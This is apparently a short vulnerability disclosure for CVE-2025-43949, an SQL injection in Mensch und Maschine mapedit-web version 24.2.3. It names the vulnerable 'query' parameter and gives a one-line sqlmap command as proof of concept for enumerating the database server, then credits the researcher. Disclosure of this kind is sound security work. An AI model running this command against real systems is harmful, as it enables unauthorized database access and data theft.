 # CVE-2025-43949
MuM MapEdit application is vulnerable to SQL Injection that allows an attacker to execute malicious SQL statements that control a web application's database server.

# Affected Product & Version
Mensch und Maschine mapedit-web version: 24.2.3

Reference: https://www.mum.de/produkte/mum-mapedit

# PoC
SQLMap exploit
````
sqlmap -r sql.txt --random-agent -p query --batch --dbs
````
![Image Description](CVE-2025-43949.png)

# Credits
This vulnerability was discovered by Manjyot Singh of Henkel Cyber Security Team.
